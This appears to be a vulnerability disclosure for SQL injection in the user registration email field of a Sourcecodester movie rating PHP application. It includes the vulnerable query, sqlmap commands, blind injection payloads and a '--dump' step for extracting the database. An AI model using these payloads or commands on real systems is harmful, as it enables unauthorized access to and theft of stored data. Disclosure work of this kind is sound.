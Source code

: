 # SQL Injection vulnerability was discovered in Sourcecodester's Sentiment Based Movie Success Rating Prediction System  (user registration)

Official Website: https://www.sourcecodester.com/php/15104/sentiment-based-movie-rating-system-using-phpoop-free-source-code.html

Version: 1.0
Related Code file: /msrps/classes/Users.php

---
## CVE-2024-XXXX
```
$chk = $this->conn->query("SELECT * FROM `client_list` where email ='{$email}' ".($id>0? " and id!= '{$id}' " : ""))->num_rows;
```
The email variable is directly inserted into the SQL query without any escaping or parameterization. An attacker could inject malicious SQL code by manipulating the email field. in (line number 135 of Users.php)

Injection parameter: email


Backend Verification for SQLi
---
```
127.0.0.1:46134 [500]: POST /msrps/classes/Users.php?f=save_client - Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'vunerableparam@mail.com'' at line 1 in /home/kali/Downloads/msrps/classes/Users.php:135                                                                                                                     
Stack trace:                                                                                                                                                
#0 /home/kali/Downloads/msrps/classes/Users.php(135): mysqli->query()                                                                                       
#1 /home/kali/Downloads/msrps/classes/Users.php(261): Users->save_client()                                                                                  
#2 {main}                                                                                                                                                   
  thrown in /home/kali/Downloads/msrps/classes/Users.php on line 135   
  ```
---
Step to Reproduce:
---

1. Go to login page and click on [Create a New Account]

![registeration](https://github.com/gurudattch/CVEs/blob/main/assets/4.png)

---

3. Fill the form and intercept the POST request in burp

![burp-image](https://github.com/gurudattch/CVEs/blob/main/assets/5.png)

---

4. Copy the **POST** request to notepad and save it.

![notepad](https://github.com/gurudattch/CVEs/blob/main/assets/6.png)

---

6. Now Run **sqlmap** on this request 

`sqlmap -r register_req.txt -p email`

```
POST parameter 'email' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 433 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=&firstname=fname&middlename=midname&lastname=lnmae&gender=Male&email=mytest@mail.com' AND 4940=4940 AND 'oqjL'='oqjL&password=password

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=&firstname=fname&middlename=midname&lastname=lnmae&gender=Male&email=mytest@mail.com' AND (SELECT 7178 FROM (SELECT(SLEEP(5)))MFQU) AND 'aOrZ'='aOrZ&password=password
---

```


__dump database;__

`sqlmap -r register_req.txt -p email --dump`


